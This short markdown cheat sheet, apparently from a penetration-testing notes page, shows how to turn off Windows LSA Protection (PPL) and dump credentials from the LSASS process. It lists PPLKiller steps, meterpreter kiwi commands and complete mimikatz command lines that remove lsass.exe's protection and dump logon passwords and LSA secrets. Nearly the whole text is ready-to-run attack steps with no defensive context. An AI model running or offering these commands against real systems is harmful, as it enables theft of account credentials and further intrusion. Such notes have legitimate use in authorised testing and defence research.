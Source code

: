 ### Check if PPL is enabled
CMD: `reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa" /v RunAsPPL` - `0x1` means enabled.

### Disable PPL using PPLKiller

Make sure the session you are running with has SYSTEM privleges.
We need to upload the driver to the path:
- `C:\Windows\System32\config\systemprofile\AppData\Local\Temp` - The Temp directory might no exist, just create it - `mkdir Temp`.

Then we will disable PPL: 
- `.\PPLKiller.exe /disablePPL <LSASS PID>`

Now we can use meterpreter mimikatz module to dump the lsass process: 
- `load kiwi` - `creds_all` - `lsa_dump_secrets`

### Disable PPL using mimikatz
Transfer both `mimikatz.exe` and `mimidrv.sys` to the same directory, e.g `C:\Windows\Tasks`.

Dump logonpasswords: 
- `.\mimikatz.exe "!+" "!processprotect /process:lsass.exe /remove" "privilege::debug" "sekurlsa::logonpasswords" "exit"`

Dump secrets: 
- `.\mimikatz.exe "!+" "!processprotect /process:lsass.exe /remove" "privilege::debug" "lsadump::secrets" "exit"`

Restore: 
- `.\mimikatz.exe "!processprotect /process:lsass.exe" "!-" "exit"`
